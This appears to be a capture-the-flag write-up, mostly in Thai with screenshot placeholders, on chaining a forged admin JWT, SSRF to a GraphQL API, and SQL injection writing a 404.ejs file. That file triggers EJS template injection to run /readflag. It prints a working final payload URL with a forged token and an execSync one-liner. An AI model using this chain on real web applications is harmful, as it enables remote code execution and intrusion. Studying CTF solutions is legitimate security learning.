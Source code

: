 
![alt text](image-9.png)

![alt text](image-10.png)

COPY flag.txt /root/flag.txt

RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

เหมือนต้องการให้เรา exec /readflag เพราะ /root จะติด permissions และมีการ set suid (เมื่อไฟล์ถูก execute จะทำงานด้วยสิทธิ์ของ owner แทนที่จะเป็น user ที่ run)




![alt text](image-2.png)

edit jwt เพื่อ ปลอมเป็น admin

![alt text](image-3.png)

แต่ auth ไม่ผ่านเพราะ requiredRole === "admin" เลยต้องเข้าด้วย requiredRole อื่น

![alt text](image-4.png)

![alt text](image-5.png)

requiredRole === "guest"  และใช้ ssfr ผ่าน parameter URL ก็ขะสามารถใช้ api ที่มี สิท admin ได้แล้ว

![alt text](image-8.png)

![alt text](image-7.png)

![alt text](image-6.png)


![alt text](image.png)

![alt text](image-1.png)

วิธี exec /readflag ด้วย sql injection 

write file โดยผ่าน sql payload โดยจะต้องหา route path ที่จะสามารถแสดงบนหน้าเว็บได้

![alt text](image-11.png)


https://regex101.com/

![alt text](image-12.png)

wrtie file ในช่วง 400-600  ทำ html page ที่สามารถทำ ssti exec /readflag

match

![alt text](image-13.png)

not match 

![alt text](image-14.png)

![alt text](image-15.png)

search dependencies 

EJS, Server side template injection ejs@3.1.9 

![alt text](image-16.png)

%%1");process.mainModule.require('child_process').execSync('calc');//

https://github.com/mde/ejs/issues/720

also try wkhtmltopdf File Inclusion Vulnerability cant exec lol

now we ready to create payload

![alt text](image-17.png)

test admin token bypass and test api ssfr

ctr+u --> url encode

ctr+shift+u --> url decode

before sent request do url encode first

![alt text](image-18.png)

bypass with \n and default sql injection work well

![alt text](image-19.png)

exec command ได้ล้ะ เจอ condition 

1. การเขียน file ใน sql command โดยใช้ INTO OUTFILE จะต้องเป็นไฟล์ที่ไม่มีอยู่

![alt text](image-20.png)

2.จะพบว่ามีแค่ทางเดียวคือผ่าน 404.ejs(จะไม่มีมาให้) เพราะเมื่อเข้าผ่าน URL แล้วไม่เจอ path จะ error แล้วไป error.ejs 

3.เมื่อเรา INTO OUTFILE 404.ejs แล้ว มันจะไม่เข้า route error อื่นแล้ว และถ้าเขียนไฟล์ 404.ejs ผิดก็จบเลย

4.เข้าด้วย err.status อื่นก็ไม่ได้ โค้ดจะ set ให้ 404 default


![alt text](image-21.png)

url=http://127.0.0.1:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NTI5NTgzNTV9.4i0RigFU0GWSKW9V5XbY1roPGWRwMTdqRtSdsz1QTYs&query={getDataByName(name:"John\n' UNION SELECT 1,\"<p><%= process.mainModule.require('child_process').execSync('/readflag'); %></p>\",2,3 INTO OUTFILE '/app/views/errors/404.ejs'; -- -"){id,name,department,isPresent}}